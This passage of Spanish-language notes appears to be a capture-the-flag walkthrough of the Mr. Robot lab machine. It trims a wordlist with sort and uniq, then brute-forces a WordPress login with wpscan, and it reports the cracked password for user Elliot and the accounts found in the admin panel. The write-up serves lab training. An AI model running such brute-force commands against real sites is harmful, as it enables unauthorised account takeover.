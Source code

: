 ### nuestro diccionario tiene 858160 palabras de las cuales muchas estan repetidas asi que vamos a memorar eso

```css 
	sort fsociety.dic | uniq > fsociety.dic_nuevo
	
```

### este comando nos ordena todo el diccionario alfabeticamente y tambien elimina las palabras repetidas y finalmente lo guarda en un nuevo archivo llamado: fsociety.dic_nuevo.

si hacemos nuevamente
```c
wc fsociety.dic_nuevo -l 
```
podemos ver que ahora nuestro nuevo diccionario tiene: 11451. esto esta mucho mejor asi que intentemos el ataque con el nuevo diccionario para ver si va mas rapido.

### Bueno, parece que a BurpSuite le cuesta hacer el ataque asi que investigando conseguimos una nueva herramienta (wpscan) que nos permite hacer ataques a paginas wordpress

```css
	wpscan -U Elliot -P fsociety.dic_nuevo --url http://IP/wp-login --multicall-max-passwords
```

![[2023-10-29_02-03.png]]

### despues de casi 10 minutos tenemos los resultados.

### la contraseña para el usuario Elliot es:
```css
	ER28-0652
```
![[2023-10-29_02-16.png]]

### ahora vamos a ingresar a la pagina web.

![[2023-10-29_02-21.png]]

### vamos a navegar por la pagina y a enumerar toda la informacion que sea posible.

### en la pestaña de usuarios podemos encontrar dos usuarios:
```cs
Username: elliot
name: elliot Alderson
E-mail: elliot@mrrobot.com
role: administrator
-------------------------------------------------------------
Username: mich05654
name: krista Gordon
E-mail: kgordon@therapis.com
role: subscriber
```
